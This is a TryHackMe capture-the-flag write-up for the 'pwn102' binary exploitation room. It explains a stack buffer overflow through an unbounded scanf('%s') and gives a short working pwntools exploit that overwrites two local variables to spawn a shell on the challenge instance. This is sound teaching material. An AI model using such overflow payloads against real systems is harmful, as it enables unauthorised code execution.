





# TryHackMe — pwn102

**Room:** [TryHackMe — pwn101](https://tryhackme.com/room/pwn101)  
**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Date:** 2026-11-07  
**Tools:** `file`, `checksec`, `strings`, IDA Pro, `gdb` + `pwndbg`, `pwntools`, Python 3  
**Binary:** 64-bit ELF (`pwn102-1644307392479.pwn102`) — not redistributed (TryHackMe content)  

---

## TL;DR

Always cross-reference the decompiler's pseudocode with raw assembly instructions! In this challenge, IDA Pro misinterprets the branch logic (showing `if (v5 == ...) exit(1337);` instead of `!=`), obscuring the true objective: we must overwrite two local stack variables at `[rbp-0x8]` and `[rbp-0x4]` with specific values (`0xc0d3` and `0xc0ff33`). An unbounded `__isoc99_scanf("%s", ...)` allows us to overflow a 104-byte buffer, corrupt both target values in memory, and trigger `system("/bin/sh")`.

---

## Recon

We inspect the binary's properties and security mitigations using `file`, `checksec`, and `strings`:



Key observations:
- **File Type:** ELF 64-bit LSB (x86-64), dynamically linked, not stripped.
- **Canary:** `No canary found` — Stack buffer overflow is possible without triggering `__stack_chk_fail`.
- **NX:** `NX enabled` — Shellcode execution on the stack is blocked.
- **PIE:** `PIE enabled` — Base addresses are randomized at runtime.
- **RELRO:** `Full RELRO` — GOT table is marked read-only.
- **Strings:** Contains strings like `"I need %x to %x\nAm I right?"`, `"Yes, I need %x to %x"`, `"/bin/sh"`, and `"I'm feeling dead, coz you said I need bad food :("`.

> [!NOTE]
> Similar to `pwn101`, because the win function (`system("/bin/sh")`) is already present inside `main()` and reachable simply by setting two local stack variables, we do not need to leak addresses, bypass PIE/ASLR, or hijack the saved return address (`saved RIP`).

---

## Static Analysis & The Decompiler Trap

### 1. IDA Pro Decompilation

Decompiling `main()` in IDA Pro shows the following pseudocode:



```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[104]; // [rsp+0h] [rbp-70h] BYREF
  __int64 v5;   // [rsp+68h] [rbp-8h]

  setup(argc, argv, envp);
  banner();
  v5 = 0xBADF00DFEE1DEADLL;
  printf("I need %x to %x\nAm I right? ", 0xBADF00D, 0xFEE1DEAD);
  __isoc99_scanf("%s", v4);
  if ( v5 == 0xC0FF330000C0D3LL )
  {
    puts("I'm feeling dead, coz you said I need bad food :(");
    exit(1337);
  }
  printf("Yes, I need %x to %x\n", 0xC0FF33, 0xC0D3);
  return system("/bin/sh");
}
```

> [!WARNING]
> **The Decompiler Artifact:** Notice line 11: `if ( v5 == 0xC0FF330000C0D3LL ) { puts(...); exit(1337); }`.  
> At first glance, it looks like matching `0xC0FF330000C0D3LL` would cause the program to abort and exit. However, this is an optimization artifact where the decompiler inverted the branch logic.

### 2. Disassembly in GDB / Pwndbg

Inspecting the raw assembly in `pwndbg` clarifies the true control flow:



Tracing the critical instructions:
```assembly
0x91a <+28>:  mov  DWORD PTR [rbp-0x4], 0xbadf00d
0x921 <+35>:  mov  DWORD PTR [rbp-0x8], 0xfee1dead
...
0x941 <+67>:  lea  rax, [rbp-0x70]
0x945 <+71>:  mov  rsi, rax
0x948 <+74>:  lea  rdi, [rip+0x217]        # "%s" format string
0x954 <+86>:  call <__isoc99_scanf@plt>
0x959 <+91>:  cmp  DWORD PTR [rbp-0x4], 0xc0ff33
0x960 <+98>:  jne  0x992 <main+148>        # Jump to exit if NOT equal!
0x962 <+100>: cmp  DWORD PTR [rbp-0x8], 0xc0d3
0x969 <+107>: jne  0x992 <main+148>        # Jump to exit if NOT equal!
0x96b <+109>: mov  edx, DWORD PTR [rbp-0x8]
0x96e <+112>: mov  eax, DWORD PTR [rbp-0x4]
...
0x986 <+141>: call <system@plt>            # Reached ONLY when both match!
```

- If `[rbp-0x4] != 0xc0ff33`, it jumps to `main+148` (`puts` + `exit(1337)`).
- If `[rbp-0x8] != 0xc0d3`, it also jumps to `main+148` (`puts` + `exit(1337)`).
- **Execution reaches `system("/bin/sh")` if and only if BOTH conditions are met:**
  1. `[rbp-0x4] == 0x00c0ff33`
  2. `[rbp-0x8] == 0x0000c0d3`

---

## Vulnerability & Stack Layout

### 1. Root Cause
The binary calls `__isoc99_scanf("%s", v4)` with destination buffer `v4` at `[rbp-0x70]`. The format string `%s` lacks a length constraint (unlike e.g. `%103s`), allowing unbounded input until whitespace or EOF is encountered.

### 2. Stack Layout & Offset Calculation

Variables on x86-64 stack frames are addressed relative to the base pointer `rbp`:

```text
  Lower Memory Addresses
  +-----------------------------------+  <- [rbp - 0x70] (Buffer v4 start)
  |                                   |
  |     v4 buffer (104 bytes)         |
  |                                   |
  +-----------------------------------+  <- [rbp - 0x08] (Target 1: must be 0xc0d3)
  |     4 bytes: initially 0xfee1dead |
  +-----------------------------------+  <- [rbp - 0x04] (Target 2: must be 0xc0ff33)
  |     4 bytes: initially 0xbadf00d  |
  +-----------------------------------+  <- [rbp] (Saved RBP)
  |     Saved Return Address (RIP)    |
  +-----------------------------------+
  Higher Memory Addresses
```

We compute the required offset to reach the first target variable at `[rbp - 0x8]`:
$$\text{Offset} = 0x70 - 0x08 = 0x68 = 104 \text{ bytes}$$

Double-checking in Python:



### 3. Payload Construction
Since the buffer grows towards higher memory addresses:
1. `104 bytes` of padding to reach `[rbp - 0x8]`.
2. Next `4 bytes` (`p32(0xc0d3)`) overwrite `[rbp - 0x8]`.
3. Next `4 bytes` (`p32(0xc0ff33)`) overwrite `[rbp - 0x4]`.

> [!IMPORTANT]
> Because `scanf("%s")` stops reading upon whitespace (`0x20` space, `0x09` tab, `0x0a` newline, etc.), we must ensure our payload contains no whitespace bytes:
> - `p32(0xc0d3)` $\rightarrow$ `\xd3\xc0\x00\x00` (valid)
> - `p32(0xc0ff33)` $\rightarrow$ `\x33\xff\xc0\x00` (valid)
> 
> Neither value contains any whitespace characters, allowing `scanf` to process the entire 112-byte payload.

---

## Exploit

We write a pwntools script to send the payload to the local or remote target:

```python
#!/usr/bin/env python3
from pwn import *

exe = "./pwn102-1644307392479.pwn102"
elf = context.binary = ELF(exe, checksec=False)

HOST = args.HOST or "10.67.179.158"
PORT = int(args.PORT or 9002)

p = remote(HOST, PORT) if args.REMOTE else process(exe)

# Payload: 104 bytes padding + [rbp-0x8] + [rbp-0x4]
payload = b"A" * 104 + p32(0xc0d3) + p32(0xc0ff33)

p.recv()
p.sendline(payload)
p.interactive()
```

*(The full script is located in [`exploit.py`](file:///home/thang/thm-writeups/pwn101/pwn102/exploit.py)).*

---

## Flag

Running the exploit script against the remote challenge instance satisfies both checks and spawns a shell:



```bash
$ ls
flag.txt
pwn102
pwn102.c
$ cat flag.txt
THM{redacted}
```

> **Flag:** `THM{redacted}` *(Redacted in accordance with TryHackMe writeup policies)*.

---

## Key Takeaways & Lessons

1. **Verify Decompiler Output Against Assembly**: Decompilers perform aggressive heuristics and dead-code elimination. When a branch or condition looks counter-intuitive (such as exiting upon matching the target values), always inspect the raw assembly disassembly in `gdb` or IDA View.
2. **`scanf("%s")` Buffer Overflow**: Using `scanf` with `%s` without specifying an explicit field width limit (e.g. `%103s`) is equally as hazardous as `gets()`.
3. **Multi-Variable Stack Alignment & Endianness**: When overwriting multiple consecutive variables on the stack, remember that memory grows from lower to higher addresses. The variable with the lower offset (`[rbp - 0x8]`) must precede the variable with the higher offset (`[rbp - 0x4]`) in the payload sequence.
